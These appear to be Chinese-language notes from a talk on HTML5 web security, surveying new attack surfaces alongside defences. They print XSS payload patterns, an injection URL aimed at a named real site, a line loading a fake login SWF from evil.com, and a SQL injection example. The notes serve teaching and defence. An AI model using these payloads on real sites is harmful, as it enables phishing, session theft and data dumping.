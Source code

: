 # 關注 HTML5 安全

![](http://articles.csdn.net/uploads/allimg/120911/145_120911100415_1.jpg)

* 講者：蔣宇傑（百度）- 送了我一本「關注 HTML5 與 CSS3」的書 :D
* [投影片](https://dl.dropbox.com/u/1953991/focus-html5-security.pptx)
* [部落格](http://blog.csdn.net/hfahe/article/details/7960705)
* [線上閱讀](http://pan.baidu.com/share/link?shareid=25886&uk=2802317001)

## HTML 的發展

* 1991 年 - HTML 誕生
* 1996 年 - CSS 與 JS 誕生、產生了 XSS
* 2000 年 - HTML1、針對瀏覽器的攻擊
* 2005 年 - Web 安全多樣化
* 2008 年 - HTML5 出現 -> 新的變化！

## HTML5 的美與危險

HTML5 就像是一朵玫瑰，它很美、但也有尖銳的刺。

Web 需要不斷地往前發展、雖然解決一些舊的風險，但也會帶來新的特性，幫助攻擊者去引入新的攻擊模式。

* 如何預防 HTML5 的新式攻擊：
  * 第一個層面：規範。官方需要有一個安全規範、告訴開發者如何實作。
  * 第二個層面：機制。瀏覽器本身也要實現一些安全機制。
  * 第三個層面：意識。此 Session 的主要目的：在應用實作層面提醒開發者注意 HTML5 的安全問題，


## HTML5 的四層架構

第一層是表現層，第二層是邏輯層，第三層是網路層，第四層是核心層

![](http://farm9.staticflickr.com/8177/8021615225_063da467e3_b.jpg)

### 第一層：表現層

#### 新的標籤攻擊

* 新標籤：Audio、Video、Canvas、Article、Footer…* 新屬性：poster、autofocus、formaction、oninput…
* 以下的新 Pattern 必須加入 XSS 過濾機制 Filter 中！

        多媒体标签： <video><source onerror="javascript:alert(1)“>                    <video poster=”javascript:alert(1)”>         自动聚焦：   <input autofocus onfocus=“alert(1)”>         表单和按钮： <form><button formaction="javascript:alert(1)">test
* 利用 autofocus 的新 patter : 不用任何動作就可以執行 Script

         http://www.miiicasa.com/?text=<input autofocus onfocus=alert(1)>

#### CORJacking 

* 頁面上既有的 Flash

        <object classid=“clsid:xxxxxxx-xxxx-xxxx-xxxxxx” id=“Login” width=“100%”  height=“100%” codebase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab>            <param name=“movie” value=“Login.swf” />            <param name=“quality” value=“high” />            <embed src=“Login.swf” quality=“high” width=“50%” height=“50%”>        </object>

* 做 SWF 的替換放入假的 Facebook 登入介面：
    
        document.getElementByName(‘Login’).item(0).src=‘http://evil.com/login.swf’;

#### API 攻擊
* Web Notifications：盗取数据<br>![](http://farm9.staticflickr.com/8462/8021721595_967a0c388f.jpg)
* History API：可隱藏 XSS 的 URL* registerProtocolHandler：網站可登記其能處理的通信規則。限 Firefox 使用。洩漏訊息

          navigator.registerProtocolHandler(“mailto”, “http://www.f.com/?uri=%s", “Evil Mail");
### 第二層：邏輯層

#### WebSQL 攻擊

可利用 SQL Injection、資料庫探測

* JavaScript 沒寫好：
  
        executeSql("SELECT name FROM stud WHERE id=" + input_id)
  
* 別人的 XSS 就可以 Dump 出 WebSQL 的資料：

        // id = "1 or 1 = 1"
        http://www.miiicasa.com/websql.php?id=1%20or%201%20=%201

* 改善方式：
  * 檢查輸入類型 
  * 改用參數形式
  
        executeSql("SELECT name FROM stud WHERE id=?“,[input_id])  * 謹慎對待每一次 SQL 操作
  * 不要儲存重要數據 - Browser 端不應該有敏感資訊。  

#### Web Storage 攻擊

跟全域變數一樣的問題！

* 全域變數、window.localStorage
* 現有工具：[HTML5CSDump](http://www.scribd.com/doc/4012693/Abusing-HTML-5-Structured-Clientside-Storage)
* 改進方式：
  * 盡量將資料放在適合的 Scope 中，勿用全域變數。
  * 不要任何敏感的資料
   
### 第三層：網路層攻擊

#### WebWorker 攻擊：多執行緒

攻擊變得很有效率

* 攻擊方式：
  * 殭屍網路：DDos 攻擊、發送垃圾郵件。
  * postMessage
* 攻擊工具：Ravan
![](http://farm9.staticflickr.com/8318/8021667141_1fb29c9838_z.jpg)
* 防禦方式：
  * 避免去不安全的網站（使用者）
  * 使用 postMessage 需要驗證來源 (網站)
  * 使用 postMessage 避免使用 innerHTML (網站)
  
#### WebSocket 攻擊

![](http://cometdaily.com/wp-content/uploads/2008/07/orbited-firewall.png)

* 成為後門、Port Scanning、殭屍網路、網路探測器
* 攻擊工具：[JS Recon](http://www.andlabs.org/tools/jsrecon.html)
  
### 第四層：核心層

#### Clickjacking 攻擊

![](http://honeyaordoubadi.files.wordpress.com/2010/03/clickjacking.jpg)

利用 Iframe 把 miiiCasa 的網頁放入，再上面疊一層透明的表單，對齊好輸入框

* [測試工具](http://www.protecht.ca/clickjacktest)
* 防禦之道：
  * 設定 X-Frame-Options 
  * 防止網頁被嵌入 (噗浪)

        if (top !== window) top.location = window.location.href;

#### CORS 攻擊

利用 HTTP Header 做跨網域存取。

* 可能帶來的風險：
  * HTTP Header 可以被竄改，是不可信賴的
  * 原本信賴的網站可能會被入侵
  * 惡意的跨網域請求
  * 內部訊息的洩漏
  * 針對用戶的攻擊
* 攻擊工具 - [Shell of the future](http://www.andlabs.org/tools.html)
  * Shell of the Future is a Reverse Web Shell handler. It can be used to hijack sessions where JavaScript can be injected using Cross-site Scripting or through the browser's address bar. *It makes use of HTML5's Cross Origin Requests and can bypass anti-session hijacking measures like Http-Only cookies and IP address-Session ID binding.*
* 防禦方式：
  * 不信任未經身分驗證的跨網域請求
  * Request 的那一方需要*驗證接受數據的有效性* 、Response 的那一方需*暴露最少的功能*。
  * 透過多種條件檢驗非法 Request (HTTP Header、Parameter...)

## HTML5 對於安全性的改進

* Iframe Sandbox* Content Security Policy - 內容安全策略（Header 只允許某些 URL, iframe 載入）         Content-Security-Policy: default-src https://jiang.yujie.net; frame-src 'none';      
* XSS Filter - Chrome/Safari 已經直接內建* Todo - HTML5 安全規範

## HTML5 開創的藍海

HTML4 對安全性有 Antisamy、HTML purifier 等公司專門做檢查，目前 HTML5 還是一片空。
目前很少公司會把 Port 80 鎖掉。國外有一家公司正在做一件事情：面對基於 Web 的攻擊。*當前的防火牆對於 Web 很難進行禁止與防禦*，這家公司提供的新式防火牆，針對内容進行深入檢查。

